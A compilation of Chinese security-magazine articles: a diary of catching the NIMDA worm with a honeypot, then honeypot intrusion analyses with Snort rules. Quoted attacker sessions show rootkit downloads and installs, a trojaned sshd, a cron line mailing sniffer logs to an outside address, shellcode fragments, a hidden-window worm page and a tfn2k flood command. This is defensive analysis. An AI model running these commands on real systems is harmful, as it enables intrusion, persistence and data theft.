批处理的语法其实很简单，但需要灵活运用。希望这篇教程能让大家以后都熟练使用批处理，一些基本问题可以靠自己的能力去解决。这样我的目的也就达到了！

## 遭遇
## 蠕虫 NIMDA（上集）


cloie

### 一、遭遇 NIMDA

我当时正在 BBS 上瞎逛，入侵检测系统忽然铃声大作，它就是这样的敏感。估计是路过的小虫虫或某个寻找代理的常见扫描，打开日志一看，发现还蛮有趣的，让我有捉它的冲动了：

图 1 是 IDS（KPSensor）的日志。

- ID 82：总是又去寻找另一个 root.exe，估计它发现刚才的 Web Server Folder Traversal 漏洞没有能利用成功，或者它只是为了保险再传一个后门软件。
- ID 83：它企图再传播一次。
- ID 84：然后再一次尝试 Web Server Folder Traversal 漏洞。
- ID 84：它似乎对几次没有成功感到不耐烦了，又来尝试利用 Unicode 漏洞，最后终于放弃，发奋进一步进攻了。

整个过程可以看出，它的有些行为虽然简单，但却可造成很大的危害。

| ID | Start | Protocol | Server Port | Name | Visitor | Retrieved |
|---|---|---|---|---|---|---|
| 85 | 2003-3-22 16:35:48.892 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /scripts/..../cmd.exe?/c+dir |
| 84 | 2003-3-22 16:35:18.432 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /MSADC/..../httpodbc.dll HTTP/1.0 |
| 83 | 2003-3-22 16:35:18.162 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /MSADC/root.exe?... |
| 82 | 2003-3-22 16:35:17.901 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /MSADC/root.exe?+dir |
| 81 | 2003-3-22 16:35:17.371 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /scripts/root.exe?+... |
| 80 | 2003-3-22 16:35:17.631 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /scripts/httpodbc.dll HTTP/1.0 |
| 79 | 2003-3-22 16:35:17.520 | TCP | 80 | HTTPMS IIS | 10.139.1.54 | GET /scripts/root.exe?/c+dir |

图 1

IDS KFSensor 是个基于主机的入侵检测系统，也可以说是一个蜜罐（honeypot），仿听一系列 TCP/UDP 端口，模拟一些服务器，如有访问就报警和记录。

通过分析日志，很明显地发现这是一条蠕虫。到 Google 上搜索“cool.dll”和“httpodbc.dll”，可以确认是 NIMDA II。简单分析一下，从日志记录看来：


- ID 79：它感染 10.139.1.54 这台主机，然后扫描到我开了 HTTP IIS 5.0。显然这个是 KFSensor 模拟的一个 WEB 服务器，只能回复给客户端 WEB 服务器版本。但这已经够为攻击者提供 IIS5.0 信息，而且蠕虫根本不在意你是否是 IIS5.0，这个 WEB 请求的目的是看看我的 WEB 服务器 Scripts 目录下是否已经有 root.exe。root.exe 是当年 Code Red II 留下的后门，可利用它直接取得对系统的控制权。
- ID 80：由于 80 端口侦听的并非真正有漏洞的 IIS5.0，刚才那个请求未成功。蠕虫又利用 httpodbc.dll 来获得对系统的控制权。这个 DLL 是利用 IIS 的 Web Server Folder Traversal 漏洞来得到权限的；如果它成功找到该漏洞，病毒会使用它来感染系统。NIMDA 本身会向被自己感染的主机上传 httpodbc.dll，这里估计是看看是否已经被自己感染过。
- ID 81：蠕虫想从自己主机里的 TFTP 服务器下载“cool.dll”传到我的服务器，并改名为 httpodbc.dll，这里可看出被蠕虫……

### 二、第一次亲密接触

如果只是遇见它、看看它，就这样过去了，就太没有意思了。我觉得应该 tracking 一下，太大的好奇心总是带给你更大刺激，和更大的风险：）。

我们先看看刚才攻击我的主机究竟是哪个单位的 WEB 服务器被倒霉的蠕虫占据了？

打开 IE，迫不及待地连上去，出现了图 2 所示的界面。


图 2

可以看出，这是个“流体力学研究所”的主页，主页很简单，几个新闻链接和友情链接都是指向单位的官方主页，好像很自然，唯一特别的地方就是一个研究所的主页怎么做得如此简单？我随意浏览了一个就下线了。不到一分钟时间，硬盘就开始咯咯狂响，可是我没有运行什么大程序啊！心里一惊，估计刚才那个网页有问题，我的机子并没有安装任何杀毒软件，很可能中毒了。慌忙打开任务管理器，察看里面的进程，粗粗一看，也并没有太多……


```

## 精彩连载100%

看不出来什么异常的进程，只是 CPU 被 Explorer.exe 占用达 100%。本来 Explorer 只是 Windows 里的合法程序，管理桌面用的。我打开“查看线程”的选项，大吃一惊，如图3所示。
图3

Explorer 的线程竟然多达 83 个，正常情况下是 13 个线程左右，很显然它已经被感染了。硬盘继续狂响，任务管理器显示系统运行了更多的可疑程序，如图4、图5、图6。
图4
图5
图6

看来 Explorer 多出来的线程是用来运行系统命令 net.exe 和 net1.exe，多达 60 几个进程，不知道是用来做什么。后来知道是蠕虫想寻找网络上共享的目录，找到后把病毒传过去，继续感染其他主机，而且还把我的磁盘设为共享，让其他人看到有病毒的文件而感染他机。估计由于我安装系统时禁止了 Server 服务，它开启共享并不会成功，所以 net.exe 和 net1.exe 进程很多将无法正确响应，从而进入程序的假死状态，出现 N 多无法结束的进程。也就是我们上面看到的这些进程，它们将不断增加，浪费更多内存，最后死机。

我用 netstat -an 来看我自己主机的网络连接情况：

```text
C:\>netstat -an
Active Connections

Proto  Local Address       Foreign Address      State
TCP    10.10.3.52:7658     10.111.108.21:80     TIME_WAIT
TCP    10.10.3.52:1785     10.111.107.13:80     TIME_WAIT
TCP    10.10.3.52:1935     10.111.212.67:80     TIME_WAIT
TCP    10.10.3.52:2006     10.111.224.121:80    TIME_WAIT
TCP    10.10.3.52:2099     200.154.249.201:80   FIN_WAIT_1
TCP    10.10.3.52:2174     10.111.163.126:80    TIME_WAIT
TCP    10.10.3.52:2194     191.67.3.189:80      FIN_WAIT_1
>(略部分)
TCP    10.10.3.52:2618     148.13.200.16:80     ESTABLISHED
>(略部分)
TCP    10.10.3.52:2664     39.82.69.106:80      ESTABLISHED
>(略部分)
TCP    10.10.3.52:3392     61.87.151.172:80     FIN_WAIT_1
TCP    10.10.3.52:3393     61.87.151.172:80     FIN_WAIT_1
TCP    10.10.3.52:3394     61.87.151.172:80     FIN_WAIT_1
TCP    10.10.3.52:3407     10.111.112.67:80     TIME_WAIT
TCP    10.10.3.52:3464     10.111.40.248:80     ESTABLISHED
TCP    10.10.3.52:3514     10.111.224.121:80    ESTABLISHED
TCP    10.10.3.52:3593     10.111.224.2:80      TIME_WAIT
TCP    10.10.3.52:3611     10.111.224.2:80      TIME_WAIT
>(略部分)
TCP    10.10.3.52:4485     10.250.142.126:80    SYN_SENT
TCP    10.10.3.52:4486     10.79.26.58:80       SYN_SENT
TCP    10.10.3.52:4487     10.204.149.133:80    SYN_SENT
TCP    10.10.3.52:4488     10.33.33.65:80       SYN_SENT
TCP    10.10.3.52:4489     10.76.7.5:80         SYN_SENT
TCP    10.10.3.52:4490     10.111.135.179:80    SYN_SENT
TCP    10.10.3.52:4491     10.111.99.17:80      SYN_SENT
TCP    10.10.3.52:4492     10.111.148.38:80     SYN_SENT
```

10.10.3.52 是我主机的 IP，有程序在大范围地寻找 WEB 服务器，而且扫描的 IP 是随机的。有的已经建立连接，有的正在建立，有的断开连接。

我利用 fport.exe 来查看是哪个程序在扫描：

```text
C:\>fport.exe
FPort v2.0 - TCP/IP Process to Port Mapper
Copyright 2000 by Foundstone, Inc.
http://www.foundstone.com
Pid  Process    Port  Proto  Path
1640 Explorer   -> 2618 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 2664 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 3055 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 3057 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 3803 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 3912 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4002 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4048 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4117 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4171 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4336 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4397 TCP  D:\WINNT\Explorer.exe
1640 Explorer   -> 4423 TCP  D:\WINNT\Explorer.exe
...
1640 Explorer   -> 4686 TCP  D:\WINNT\Explorer.exe


```

对比上面的源端口，可看出是被感染的 Explorer 在疯狂扫描，没有在 Fport 里出现的源端口，是因为相应的线程已经结束了。
进入“我的电脑”，想看看有没有多出什么文件，发现文件管理器的属性被改掉了。我平时的习惯是显示所有文件和不隐藏文件后缀名的，但我发现所有文件的后缀都被隐藏了。马上打开管理属性，发现蠕虫已改掉了我原先的设置，为了更加隐蔽地隐藏自己（图7）。

既然蠕虫对我的主机进行了这么多破坏，估计它已在我的机器上安装了后门，首先是查看用户：

```text
D:\>net user
```

- Admin
- Guest123
- guest

命令成功完成。其中，“IYSUK”是我主机的名字。安装系统时，为了安全问题，管理员 Administrator 已经被我改名为 Admin，原先的 guest 用户也已改名 Guest123 了。那么现在多出来的 guest 很显然不是我系统里原来就有的用户。查询一下它：

```text
D:\>net user guest


```

| 字段 | 值 |
|---|---|
| 用户名 | guest |
| 国家（地区）代码 | 000（系统默认值） |
| 帐户启用 | Yes |
| 帐户到期 | 永不 |
| 上次设置密码 | 2003/3/22 下午 08:00 |
| 密码到期 | 2003/5/24 下午 08:47 |
| 密码可更改 | 2003/3/22 下午 08:00 |
| 需要密码 | Yes |
| 用户可更改密码 | Yes |
| 允许的工作站 | All |
| 上次登录 | 永不 |
| 可允许的登录小时数 | All |
| 本地组成员 | *Administrators, *Guests, *Users |
| 全局组成员 | *None |

命令成功完成。这个用户是刚刚在几分钟前建立的，那时就是我刚刚被感染的时刻，而且它已经是管理员组里的用户了，对我的系统有绝对高的权限。蠕虫留下它作为后门，通过用 LC4 分析，可以发现它的密码为空。最有趣的是，它还给我发信了，因为我的蜜罐当时还在运行，所以可以捕获这个 Mail 包，可惜该邮件包包含了附件，内容太大，日志里只记录了 Mail Header 里的一点点信息（可以到安装目录下找更详细的日志）。如图8所示。
这个邮件是随机发的，也就是如果被感染的主机开了 25 端口，它就会发给你，而且你是收不到的，因为蠕虫并不知道你的真正邮件地址。所以，只有蜜罐可以在发信过程截获这封信。邮件包含了 BASE64 编码的游戏文件，只要 IE 或 Outlook 一浏览，即使不打开也会自动运行，真毒！同样，如果本机开了 80 端口，蠕虫也会向自己发送数据包（图9）：

| 时间 | 协议/端口 | 请求 |
|---|---|---|
| 2003-3-22 ... | TCP 80 | GET /ASADC/... HTTP/1.0 |
| 2003-3-22 ... | TCP 80 | GET /ASADC/root... |
| 2003-3-22 ... | TCP 80 | GET /ASADC/root... |

图9

由日志可以看出，它已经在我的主机上建立了一个 TFTP 服务器。再用 `fport.exe` 就可以证实，已经有 TFTP 服务器在我的主机上侦听 UDP 端口 69 了：

```text
1640  Explorer  ->  69  UDP  D:\WINNT\Explorer.exe


```

到这个时候，我的机子已经变得速度非常慢，抓图、保存日志之类的工作都已经不行了，只好强行关机了。欲知后情如何，且看下期分解！

蠕虫伪造源地址，向我的 80 端口发送数据包，这个伪造的 IP 是 127 开头的，正常情况下根本不可能访问到我的主机。由 ID246。

在上文中，我们对 NIMDA 进行了初步接触。下面，我们再与它零距离感觉一下。

## 遭遇蠕虫 NIMDA（下集）

### 杀二次重逢色狼！

cloie

我安装系统时做过镜像备份，所以重装系统对我来说是非常快的。由于这个因素，让我有再一次研究这个蠕虫的念头。重新恢复系统后，我就先拔掉了网线，断开了网络连接，准备一些工具和设置一些环境来捕捉它。

Explorer.exe 会被修改，所以对它做了 MD5 值校验。重新布置监视 KFsensor，继续侦听 WEB 80 和 SMTP 25。很快，入侵检测系统就报警了（见上表）：根据前面分析的结果，可以知道这是另外一个被感染的主机。我如果用 IE 连上去，就又会跟刚才一样中毒。这样，就要用另外的工具浏览网页，才可以不被感染。Wget 当然就是首选的了：
- Filemon —— 监视系统对文件的操作
- Regshot —— 查注册表改动
- Md5sum —— 查看文件的 MD5 值
- Fport —— 查看端口跟应用程序的关联
- Plist —— 看进程（信息较任务管理器详细）
- KFsensor —— 有入侵检测功能的蜜罐程序
- Cmdlog —— cmd 的命令历史记录、蜜罐工具

```text
C:\>wget http://10.111.193.211
--21:51:02--  http://10.111.193.211/
=> `index.html`
Connecting to 10.111.193.211:80... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]

[ <=> ] 9,568 570K/s
21:51:03 (570 KB/s) - `index.html` saved [9568].
```

为得到更多关于蠕虫在 shell 里有没有运行过什么，我布置了一个蜜罐陷阱，即 CMDLOG。一旦黑客或蠕虫利用 SHELL 运行命令，都将被记录到一个文件里，我们就可根据记录的命令，分析黑客的行为、动机和目的了。

```html
<html>
<script language="JavaScript">
window.open("readme.eml", null, "resizable=no,top=600,left=6000")
</script>
</html>
```

| 时间 | 协议 | 来源/目标 | 请求 |
|---|---|---|---|
| 2003-3-22 ... | TCP 80 | 10.111.193.211 | GET /ASADC/... |
| 2003-3-22 ... | TCP 80 | 10.111.193.211 | GET /ASADC/root... |
| 2003-3-22 ... | TCP 80 | 10.111.193.211 | GET /scripts/httpod... |

我的主机是 Win2000+SP1，关闭系统的 WFP（Windows 文件保护机制），替换原先的 cmd.exe，备份系统文件。我又怀疑 WinNT/... 当人们浏览这个主页时，除了我们先前看到的那个“流体力学研究所”的主页外，其实还打开了一张隐藏不可见的网页，这个网页是一封 E-mail，本来它应该询问你是否下载的，但它利用了 IE 的一个漏洞，让 IE 自动下载运行它，病毒就包含在这封信件的附件里了，利用的是 BASE64 编码。我再利用 wget 下载了这封 readme.eml：

```text
C:\>wget http://10.111.193.21/2/readme.eml
```

分析它，可以看到其中利用 IE 漏洞的那个关键部分：

```text
Content-Type: audio/x-wav;
    name=[sample.exe]
Content-Transfer-Encoding: base64
Content-ID: <EA4DMGBP9P>
```

看来这个病毒编码前叫 sample.exe。忽然，硬盘又开始狂响了，晕！我忘了在分析 readme.eml 前给它改名了，因为我系统并没有打针对这个的补丁，所以，鼠标一碰到它，病毒就运行了。之后发生的情况跟先前遇见的一样，就不概述了。由于对 Regshot 的错误使用，丢失了注册表的信息，所以没有办法知道病毒对注册表做过什么改动。Cmdlog 也告失败，因为那些 net.exe 的调用估计来自程序的 API 控制，不是通过 cmd.exe 运行的（这里可看出我对程序的概念是非常薄弱的），所以没有任何特别的命令被记录。

Filemon 的表现差强人意，因为病毒运行过程中，不断向每个目录拷贝自身（readme.eml），而且在每个硬盘上存在的 HTML 文件写入代码，所以文件读取写入非常频繁，Filemon 的日志马上变得非常庞大。下面我给出其中几个典型的记录：

```text
8584  22:44:32  explorer.exe:588  READ
D:\DOCUMENTS\ADMINI~1\LOCALS~1\Temp\~nep18.tmp  SUCCESS  Offset: 2818048  Length: 65536
8585  22:44:32  explorer.exe:588  WRITE
D:\program files\common files\system\ado\readme.eml  SUCCESS  Offset: 2818048  Length: 65536
```

以上日志表示蠕虫正把自己拷贝到每个目录下。

```text
10296 22:44:35 explorer.exe:588 OPEN C:\wget\www.lucidic.net\index.html SUCCESS
10297 22:44:35 explorer.exe:588 SET INFORMATION C:\wget\www.lucidic.net\index.html SUCCESS
10298 22:44:35 explorer.exe:588 CLOSE C:\wget\www.lucidic.net\index.html SUCCESS
10299 22:44:35 explorer.exe:588 OPEN C:\wget\www.lucidic.net\index.html SUCCESS
10300 22:44:35 explorer.exe:588 QUERY INFORMATION C:\wget\www.lucidic.net\index.html SUCCESS
10301 22:44:35 explorer.exe:588 QUERY INFORMATION C:\wget\www.lucidic.net\index.html SUCCESS Length: 11965
10302 22:44:35 explorer.exe:588 READ C:\wget\www.lucidic.net\index.html SUCCESS Offset: 11940 Length: 25
10303 22:44:35 explorer.exe:588 READ C:\wget\www.lucidic.net\index.html SUCCESS
Offset: 8192 Length: 4096
10304 22:44:35 explorer.exe:588 CLOSE
C:\wget\www.lucidic.net\index.html SUCCESS


```

以上日志表示蠕虫把运行病毒的那段代码插入到磁盘上的 HTML 文件中。

先下载 WinNT/Explorer.exe 的 MD5 值校验，发现病毒并没有改变它，估计只是控制了它，没有对其本身插入代码或是替换。
两个校验值一样，说明被控制的 Explorer.exe 本身并没有被修改或是替换。

到此，已经基本了解了这个蠕虫的运作过程了。虽然一步步地有失误，但能够如此亲近一个蠕虫，让我学会很多了。蠕虫的危害也可见一斑了，不但默认配置的 IIS 会被感染，而且无辜的客户端也会受害。而所有 Windows NT Server 默认都是安装默认配置的 IIS 服务的，如果一个日访问量达上万的门户网站被感染，这就意味着同时将有近万个客户端被连带感染蠕虫。这不但伤害了客户利益，也严重影响了门户网站的声誉，由此也可看出网络安全的重要性。

## 精彩连载100%

## 蜜罐进阶之 Hit@me 入侵分析（一）

紫天星

最近在翻阅 PPTP 的资料，偶然在 www.counterpane.com 上发现 pptp-faq 写的一篇文章，非常有趣。其大概意思是：微软的 PPTP 协议很烂……PPTP 协议本身非常安全，但微软所实现的 PPTP 协议却是一堆垃圾……我们是否真能感到安全所带来的幸福？

于是我们有了测试的必要，架设自己的蜜罐系统，并在其中实现各种系统和相关产品的虚拟实现，使之模拟真实的网络服务资源来诱捕各种攻击行为……因此，入侵数据分析似乎时髦起来。

建立 Hit@me 蜜罐半月之久，在实验环境中对其进行各种攻击测试……为使分析过程更具生动，我将以入侵不同操作系统来评析入侵的数字化行为。

（注：本文将分成三部分为大家介绍，本期作为长连载第一部分“Linux 入侵数字化分析”的前两方面内容）

### 二、Linux 入侵数字化分析

#### 1. 端口扫描数字化特征

在 ACID 的输出显示中，存在着大量“IDS441/scan_probe-Synscan-Portscan”的记录，并且其目标 IP 地址指向模拟的 Redhat7.1 系统……为了明确了解其数字特征，捕获其中几个包记录：

```text
5/13-17:54:10.623674 192.168.1.244 ...
```

```text
117 => 192.168.1.250,117
TCP TTL:42 TOS:0x0 ID:39426
***S*** Seq: 0x55A0EF7B Ack: 0x40F9DC84 Win: 0x404
...
148 => 192.168.1.250,148
TCP TTL:42 TOS:0x0 ID:39426
***SF*** Seq: 0x642083AA Ack: 0x4F07A60B Win: 0x404
```

分析 TCP/IP 包头，有这样一些有趣的现象：

- 1. IP Header 中 Fragment Identification 字段中的数值始终是 39426；
- 2. TCP 的源端口始终与目标地址的端口号一致；
- 3. TCP 的确认号中，SYN 和 FIN 始终置位；
- 4. 窗口尺寸始终为 0x404。

众所周知，在数据包中置位 SYN 意味着往目标端口发送 SYN 分组，如果接收到目标回馈的是 SYN/ACK，则推断该端口处于监听状态；如果接收到 RST/ACK，则端口没有开放……所有迹象表明：系统遭受了隐秘的半开扫描（half-open scanning）。

结论：SYN-FIN 的数字特性发生于端口扫描事件中，并且这种扫描发包 ID 号为 39426，另一个显著特征则是其窗口尺寸大小为 0x404。于是当我检阅 snort 的入侵规则库时，其特征代码如下：

```text
alert tcp $EXTERNAL_NET any -> $INTERNAL_NET any (msg:"IDS441/scan_probe-Synscan-Portscan"; id:39426; flags: SF; classtype: info-attempt; reference: arachnids,441;)
```

（注：通过对包结构分析，我们可轻松定义自己的入侵检测特征，添入 snort 的规则库中。）

#### 2. FTP 远程溢出数字特征

继续观测 ACID 提供的便利输出，我发现在对 RH7.1 的 21 端口记录的入侵检测是这样记录的：IDS287/ftp_ftp-wuftp260-venglin-linux……该漏洞由于密码或用户名过长可产生远程溢出。

对于这样的溢出攻击，我们需要捕获什么样的数据才能获得入侵后的行为呢？……为证实我的想法并剖析其漏洞利用原理，数据包如下：

```text
05/14-01:25:38.420608 192.168.1.18:1968 -> 192.168.1.250:21
TCP TTL:64 TOS:0x10 ID:31579 DF
***PA*** Seq:0x6BF2C954 Ack:0xE69A711B Win:0x7FB8
TCP Options => NOP NOP TS: ...
PASS 90 90 90 90 90 90 90 ...
```

```text
90 90 90 90 ...
C0 31 DB 31 C9 B0 46 CD 80 ...
... /bin/sh
```

从截获的 FTP 登录数据包，我们发现在密码验证时（即在 PASS 指令之后），输入超长的密码口令（发送适当的 shellcode）能成功溢出 wu-ftpd……随后获得远程系统 root 的 /bin/sh。

```text
alert TCP $EXTERNAL_NET any -> $INTERNAL_NET 21
(msg:"IDS387/ftp ..."; content:"|31 c0 31 db ...|";)
```

#### 3. 全面入侵数字解析

入侵者通过端口扫描、漏洞利用等方式获得了系统控制权限，接下来通过数据包的监测追踪，整理其后续行为并在必要命令旁加入注释。

```bash
# unset HISTFILE; id; uname -a
uid=0(root) gid=0(root) groups=0(root)...
10(wheel)
Linux res 2.4.7-4 ...
# mkdir /var/tmp/
# cd /var/tmp/
# wget http://packetstormsecurity.org/UNIX/penetration/rootkits/lrk5.src.tar.gz
# ls -al /usr/bin/wget
ls: /usr/bin/wget: No such file or directory
# find / -name wget -print
# lynx source packetstormsecurity.org/... > lrk5.src.tar.gz
# tar ...
```

- lrk5/bindshell.c
- lrk5/chfn/chfn.c
- lrk5/chfn/setpwam.c
- lrk5/chsh/chsh.c
- lrk5/fileutils-3.13/...
- lrk5/login/login.c
- lrk5/passwd/passwd.c
- lrk5/procps-1.01/ps.c
- lrk5/sniffer/...

```text
lrk5/sniffer/ip.h
lrk5/sniffer/tcp.h
lrk5/sniffer/udp.h
lrk5/sniffer/pcap.h
lrk5/sniffer/Makefile
lrk5/sniffer/libpcap-0.4.tar
lrk5/sniffer/thesniff.c

# make all install
```

安装一个龙大 rootkit 工具包，并列出其部分文件路径。根据下载与编译命令，可判断该 rootkit 的各种后门功能。

```bash
# cd
# rm -rf lrk*
# lynx www.asic.com/.../lrk4.src.tar.gz > lrk4.src.tar.gz
# tar zxvf lrk4.src.tar.gz
# make all install
# vi rootkit.h
```

为检查入侵者安装的 lrk4，在实验环境中下载并编译该包。对比原系统文件，许多系统命令被替换，隐蔽性极强。

包目录结构：

- bindshell：端口 shell 后门
- chfn/chsh：口令相关木马程序
- crontab：隐藏计划任务后门
- du/find/fix：隐藏文件与进程
- ifconfig/netstat：隐藏网络连接
- linsniffer：嗅探器
- login：密码窃取与后门登录
- ls：隐藏文件名（如 ptyr、hack dir）

```text
/dev/ptyq 中定义了隐藏类型：
type 0: 隐藏 uid 号
type 1: 隐藏本地地址
type 2: 隐藏远程地址
type 3: 隐藏本地端口
type 4: 隐藏远程端口
type 5: 隐藏 UNIX 连接字路径
...
0 500 <-> 隐藏 UID 为 500 的连接
1 128.31 <-> 隐藏 128.31 网段本地连接
2 128.31.39.20 <-> 隐藏到 128.31.39.20 的远程连接
3 8000 <-> 隐藏本地端口为 8000 的连接
4 6667 <-> 隐藏远程端口为 6667 的连接
5 /tmp/socket <-> 隐藏包括该 socket 的连接
...
passwd, pidof, ps, rshd, sniffchk, syslogd, tcpd, top, wted, z2 等条目
```

汗流浃背地观察 lrk4 所安装的木马后，现在让我感兴趣的是它们的安装过程。

比对安装的二进制木马程序和系统原程序，发现它们除了大小有所偏异，其文件属性、文件校验和和时间戳完全一样。于是我继续追踪其安装和编译路径（这是从源代码中截取的安装源文件代码）：

```bash
# Just to 'have a short-cut' in the subdirectory Makefiles...
BSD=-I/usr/include/bsd -Iinclude /usr/include/bsd/bsd.h

small:
for i in $(SUB); do strip $$i/*; done
for i in $(SHADOWSUB); do strip $$i/*; done
...
for i in $(SUB); do rm -f $$i/*.o; done
for i in $(SHADOWSUB); do rm $$i/*.o; done
```

从代码分析中可看出，rootkit 的安装过程是有条理的入侵过程：先将编译好的二进制文件放入 bin 目录，利用 if 语句比较原系统文件和木马程序，并把系统文件属性伪装成一致，随后清理编译期工具。文中还补充了 trojan 的定义（RFC1244）并指出这类入侵行为背后的控制欲和诱惑。

```bash
# mkdir /dev/ptyr
# cd /var/tmp/
# lynx source packetstormsecurity.nl/crypt/ssh/old/ssh-1.2.27.tar.gz > ssh-1.2.27.tar.gz
# lynx source packetstormsecurity.nl/UNIX/penetration/rootkits/rkssh5.tar.gz > rkssh5.tar.gz
# tar -zxvf ssh-1.2.27.tar.gz
# tar -zxvf rkssh5.tar.gz
# cp rkssh5/rk-ssh.diff ssh-1.2.27
# patch -p1 < rk-ssh.diff
# ./configure --prefix=/dev/ptyr
# make
# make install
```

```bash
# rm -rf *
# 入侵者安装了打过补丁的 SSHD 服务端
# 阅读 rkssh5 帮助文档并按说明配置
# /dev/ptyr 目录用于隐藏
```

入侵者继续扩大成果：修改 /dev/ptyq 实现对 3000 端口隐藏（netstat 木马）；修改 /dev/ptys 实现对 163.com 字段隐藏（syslogd 木马）；修改 /dev/ptyp 实现对 linsniffer 和 sshd 进程隐藏（ps 木马）。

```bash
# ./dev/ptyr/bin/sshd &
# ./linsniffer > /dev/ptyr/tcp.log &
# crontab -e
* 1 * * * /sbin/sendmail vincenttp97@hotmail.com < /dev/ptyr/tcp.log
```

运行 sshd 后门程序并监听 3000 端口，运行 linsniffer 捕获网络环境中的 TCP 会话，最后定时发送日志。作者指出该攻击虽隐蔽，但定时发送日志时暴露了免费邮箱线索。文末总结：通过蜜罐系统可观察到攻击者行为风格，并预告下期“Linux 入侵数字化分析”。

## 蜜罐进阶之 Hit@me 入侵分析（结尾篇）

紫天星

前面给大家讲了 Linux 的入侵数字化分析，本期接着给大家讲 Windows 特殊数字行为。

### 三、Windows 特殊数字行为

#### 1. 系统思考中藏匿的“礼物”

微软曾在 Office97 的电子制表软件（Excel）中隐藏飞行模拟器，并曾将其解释为“开发文化的一部分”。

- 注意：在 Office97 的 Excel 中输入特定字符并执行组合键/菜单操作，可触发隐藏的飞行模拟器。

无独有偶，在 NT Option Pack 4 中，微软产品代码里的 dvwssr.dll 被提及可读取特定目录文件；文中还引用了相关安全邮件列表案例，并由此引出对系统中隐蔽功能与后门风险的讨论。

作者指出，在蜜罐系统中对 Windows 2000 Server 的入侵记录很多，且在常见漏洞统计中微软产品占比较高，因此选取两个较典型数字特征进行分析。

#### 2. 病毒扩张的数字行为

为分析病毒在网络上自动传播，文中提取了可触发 snort 规则的 QAZ 蠕虫样本，并观察到蜜罐中 Win2K 的 139 端口出现来自感染主机的 TCP 连接。

| TCP 源端口 | TCP 目的端口 |
|---|---|
| 任意 | 139 |

| URG | ACK | PSH | RST | SYN | FIN |
|---|---|---|---|---|---|
|  | 1 |  |  |  |  |

表1

经过 PayLoad 数据分析，得到病毒传播特征代码（忽略 TCP 头部 Hex）如下表所示。

| Hex | ASCII |
|---|---|
| 71 61 7a 77 73 78 2e 68 73 71 | qazwsx.hsq |

```text
alert tcp any any -> any 139 (msg:"IIDS498 trojan-worm-QAZ infection"; flags:A+; content:"|71 61 7a 77 73 78 2e 68 73 71|"; reference:MCAFEE,98775; reference:arachnids,498; sid:732; classtype:misc-activity; rev:3;)
```

通过对病毒传播数据截流，不仅可理解病毒特征数字行为，也能针对样本自定义监测控制。此类自定义检测帮助了解传播细节、优化网络病毒侦测并降低风险。

#### 3. IIS Translate_F 漏洞特征数字

Translate_F 是 IIS 中较经典的漏洞利用案例。文中依据蜜罐入侵数据库中的攻击记录，给出一次相关入侵请求包样本。

```text
08/18-12:53:14.293999 192.168.1.244:15253 -> 192.168.1.252:80
TCP TTL:53 TOS:0x0 ID:31083 DF
***PA*** Seq:0x90F90192 Ack:0x251D6AF2 Win:0x2238
TCP Options => NOP NOP TS:3060457 0
47 45 54 20 2F 70 61 67 65 73 2F 63 6F 6E 74 61 ...
GET /pages/conta... HTTP/1.0
...
User-Agent: libwww-perl/5.45
...
Host: www...
Content-Type: text/html
Translate: f
X-Forwarded-For: ...
Content-Length: ...
```

```text
67 74 68 3A 20 31 38 0D 0A 56 69 61 3A 20 31 2E 38 ...
Connection: Keep-Alive ...
Translate: f ...
```

```text
nEf5iQAAAAAAAAAAAA
41 41 41 41 41 41 ...
AAAAAAAAAA ...
```

开始分析这个截流包时，我疑惑了很长一段时间。因为“...nEf5iQ...”这样的字符串并不代表具体含义。这里让我想到的是：在 tfn2k 主机之间的通讯是加密的。

但在监测这种加密通讯时，却发现每次加密字符串是无规律的。仔细查看 tfn2k 的文档后，发现作者使用 CAST-256 加密算法对通讯字符串加密之后再使用 Base64 进行编码。

微软 IIS5.0 有一个专门搜索用于检索 ASP、ASA 和 HTR 等文件的引擎。这个引擎处理这些类型文件的请求，并相应地处理它们，然后让服务器执行它们。

从此数据包中，我们可明确看出 HTTP 请求的试探语法：“Translate: f”的字符串。根据上述分析经验，我们能较确定其入侵规则检查语法。

```text
alert TCP $EXTERNAL any -> $INTERNAL 80 (msg:"IDS305/web-iis-http-iis-translate-f"; flags:A+; content:"|54 72 61 6E 73 6C 61 74 65 3A 20 66|"; nocase; classtype:info-attempted; reference:arachnids,305;)
```

熟练掌握入侵规则的编写方法，以便网络管理员灵活增加多种入侵检测条件，可完善入侵检测的规则机制，从而建立更优秀的安维系统。

| ICMP 类型 | ICMP ID号 |
|---|---|
| 0（icmp echo reply） | 0 |

即：ICMP 包为 icmp echo reply 类型，且其 ID 永远为 0。还应注意到，在加密字串后面有一串连续的“AAAAAAAAAA”，根据作者声称，这些字符是用于填充作用的。

```text
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS/tfn2k icmp possible communication"; itype:0; icmp_id:0; content:"AAAAAAAAAA"; reference:arachnids,425; classtype:attempted-dos; sid:222; rev:1;)
```

对 TFN2K 分析完毕，我们获得了分布式拒绝攻击的数字动作特征的许多有趣资料，这对于分析更多攻击方式非常便利。

#### 4. Tribe FloodNet 2k（tfn2k）的 DoS 测试

最后，我们分析蜜罐遭受 tfn2k 进行的 DDoS 攻击后所捕获的数据。这些数据将展示 tfn2k 发动攻击时，主机之间相互通信以及协同作战的数字特征。

在实验环境中使用了 2 套 Redhat7.2，安装了 td，并在蜜罐中使用 tfn 控制两台机器进行协同作战。使用“/tfn -t hosts.txt -c 6 -i 192.168.1.235”的 ICMP 攻击。

```text
5/15-00:03:33 ... 192.168.1.235 -> 192.168.1.250
ICMP TTL:246 TOS:0x0 ID:21972
ID:0 Seq:4810 ECHO REPLY
72 79 61 46 54 63 38 ...
